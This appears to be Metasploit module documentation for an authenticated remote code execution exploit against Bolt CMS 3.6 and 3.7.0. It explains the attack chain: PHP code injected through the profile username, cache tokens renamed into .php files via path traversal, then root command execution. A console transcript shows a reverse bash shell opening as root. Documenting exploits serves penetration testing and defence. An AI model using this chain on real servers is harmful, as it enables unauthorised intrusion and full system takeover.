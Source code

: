 ## Vulnerable Application
This module exploits multiple vulnerabilities in Bolt CMS version 3.7.0 and 3.6.* in order to execute arbitrary commands as root.

This module first authenticates to Bolt CMS and visits the profile page to obtain a special token.
This token is then used to change the username in /bolt/profile to a PHP `system($_GET[""])` variable, using a generated random name.
If this succeeds, the target may be vulnerable.
The module then proceeds by issuing an HTTP GET request for /bolt/overview/showcases in order to obtain a CSRF token to be used later.

Next, the module obtains a list of filename tokens from `/async/browse/cache/.sessions.`
These tokens are used to create files with the blacklisted `.php` extention via HTTP POST requests to `/async/folder/rename`.
With the CSRF token obtained before, it is possible to create .php files by "renaming" these cache tokens.
While most (if not all) available tokens can be used to created .php files in the /root directory on the server,
the resulting files cannot always be used to execute commands.
The module excludes tokens with a filesize of under 2000 bytes, as they can't ever be used for this purpose. For the remaining tokens,
it seems the easiest way to identify a valid one is to use each token to create a .php file
and then check the contents of that file.
The module does exactly this, deleting any .php files that can't be used
until it finds a file for which the "displayname" value is an empty string ("").
This value indicates that the profile username matching this token is the `$_GET` variable generated earlier,
and that the file can be used to execute arbitrary commands.
If a valid .php file is created, the module executes the payload as root via an HTTP get request in this format:
`/files/<rogue_PHP_file>?<$_GET_variable>=<payload>`

The module requires valid credentials for a Bolt CMS user. This module has been successfully tested on Bolt CMS 3.7.0.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/unix/webapp/bolt_authenticated_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Bolt CMS account]`
6. Do: `set PASSWORD [password for the Bolt CMS account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### FILE_TRAVERSAL_PATH
This is the traversal path to get from the `/files/` directory on the web server to the `/root` directory on the server.
It is used by the module to write rogue .php files to /root. The default value is `../../../public/files`.

### PASSWORD
The password for the Bolt CMS account to authenticate with. This option is required.

### TARGETURI
The base path to Bolt CMS. The default value is `/`.

### USERNAME
The username for the Bolt CMS account to authenticate with. This option is required.


## Scenarios
### Bolt CMS 3.7.0 running on CentOS 7
```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > show options
                                                                                                                                                                                                                                           
Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Path from the "files" directory to the root folder
   PASSWORD             boltbolt               yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.4            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME             bolt                   yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.10   yes       The listen address (an interface may be specified)
   LPORT  4444           yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[+] Successfully changed the /bolt/profile username to PHP $_GET variable "nbxnh".
[*] Found 6 potential token(s) for creating .php files.
[+] Used token a0293d73f435515024c2c5d37a to create phfsbswowfp.php.
[*] Attempting to execute the payload via "/files/phfsbswowfp.php?nbxnh=`payload`"
[+] Payload executed!
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.4:52008) at 2020-05-26 09:15:19 -0400

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
